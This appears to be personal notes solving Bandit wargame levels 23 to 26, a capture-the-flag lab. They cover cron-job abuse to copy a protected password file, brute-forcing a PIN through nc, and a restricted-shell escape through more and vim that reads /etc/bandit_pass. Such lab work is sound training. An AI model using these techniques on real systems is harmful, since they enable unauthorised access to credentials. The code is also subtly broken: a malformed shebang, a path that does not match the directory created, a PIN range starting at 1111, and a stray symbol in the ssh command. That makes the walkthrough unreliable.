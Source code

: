 NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

	cd /etc/cron.d
	ls -la
	cat cronjob_bandit24
	cd /tmp
	mkdir shell
	nano bash.sh
		!/bin/bash
		cat /etc/bandit_pass/bandit24 > /tmp/sh/pass.txt
  	touch pass.txt
	chmod 777 bash.sh
	chmod 777 pass.txt
	cp bash.sh /var/spool/bandit24/foo
	Wait 1 minute 
	cat pass.txt

## Level 24 → Level 25
### A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing. You do not need to create new connections each time

	cd /tmp
	mkdir test 
	cd test
	nano pass.sh
		#!/bin/bash
		b24_pass=PASSWORD
		for i in {1111..9999};do
        	echo "$b24_pass $i"
		done | nc localhost 30002
	chmod 777 pass.sh
	./pass.sh

## Level 25 → Level 26
### Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.
	
	ssh -i bandit26.sshkey bandit26@♠localhost -p 2220
 	minimize the terminal and re-enter the code until you see "more" keyword
  	When you see "more" keyword press v
   	press ESC on Vim tab
	:set shell=/bin/bash
	press ESC
	:shell
	cat /etc/bandit_pass/bandit26
